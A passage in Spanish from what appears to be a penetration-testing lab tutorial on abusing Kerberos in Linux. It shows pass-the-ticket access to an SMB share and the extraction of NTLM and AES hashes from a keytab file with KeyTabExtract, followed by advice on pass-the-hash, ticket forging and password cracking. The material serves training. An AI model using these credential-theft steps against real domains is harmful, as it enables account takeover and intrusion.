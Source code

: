 Pase el boleto (PTT) de Linux

```
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available

```

**Nota:**Para mantener el boleto de la sesión actual, antes de importar el keyTab, guarde una copia del archivo ccache presente en la variable de entorno`KRB5CCNAME`.

### **Extracto de keytab**

El segundo método que utilizaremos para abusar de Kerberos en Linux es extraer los secretos de un archivo KeyTab. Pudimos hacerse pasar por Carlos usando los boletos de la cuenta para leer una carpeta compartida en el dominio, pero si queremos acceder a su cuenta en la máquina Linux, necesitaremos su contraseña.

Podemos intentar descifrar la contraseña de la cuenta extrayendo los hashes del archivo KeyTab. Usemos[KeytabExtract](https://github.com/sosdave/KeyTabExtract), una herramienta para extraer información valiosa de los archivos .KeyTab de tipo 502, que puede usarse para autenticar las cajas de Linux a Kerberos. El script extraerá información como el reino, el principal de servicio, el tipo de cifrado y los hashes.

### **Extracción de hashes keytab con keyTabExtract**

Pase el boleto (PTT) de Linux

```
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab [*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4

```

Con el hash NTLM, podemos realizar un pase del ataque hash. Con el hash AES256 o AES128, podemos forjar nuestros boletos usando Rubeus o intentar descifrar los hash para obtener la contraseña de texto sin formato.

**Nota:**Un archivo de KeyTab puede contener diferentes tipos de hash y se puede fusionar para contener múltiples credenciales incluso de diferentes usuarios.

El hash más sencillo para romper es el hash NTLM. Podemos usar herramientas como[Hashcat](https://hashcat.net/)o[John the Ripper](https://www.openwall.com/john/)para romperlo. Sin embargo, una forma rápida de descifrar las contraseñas es con repositorios en línea como[https://crackstation.net/](https://crackstation.net/), que contiene miles de millones de contraseñas.
